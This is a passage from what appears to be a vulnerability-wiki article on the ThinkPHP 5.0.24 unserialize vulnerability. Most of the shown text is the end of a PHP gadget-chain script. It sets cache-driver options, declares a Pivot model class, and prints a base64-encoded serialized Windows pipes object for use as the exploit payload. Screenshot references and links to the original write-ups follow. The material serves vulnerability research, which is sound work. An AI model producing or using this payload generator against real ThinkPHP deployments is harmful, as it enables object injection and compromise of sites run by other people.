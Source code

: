             'cache_subdir'  => false,
            'prefix'        => '',
            'path'          => './demo/',
            'data_compress' => false,
            ];
            $this->tag = true;
        }
    }

    namespace think\model;
    use think\Model;
    class Pivot extends Model{


    }
    use think\process\pipes\Windows;
    echo base64_encode(serialize(new Windows()));

![](/Users/aresx/Documents/VulWiki/.resource/Thinkphp5.0.24反序列化漏洞/media/rId29.jpg)

![](/Users/aresx/Documents/VulWiki/.resource/Thinkphp5.0.24反序列化漏洞/media/rId30.jpg)

参考链接
--------

> http://althims.com/2020/02/07/thinkphp-5-0-24-unserialize/
>
> http://pines404.online/2020/01/20/%E4%BB%A3%E7%A0%81%E5%AE%A1%E8%AE%A1/ThinkPHP/ThinkPHP5.0.24%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E9%93%BE%E5%88%86%E6%9E%90/
>
> https://xz.aliyun.com/t/7082
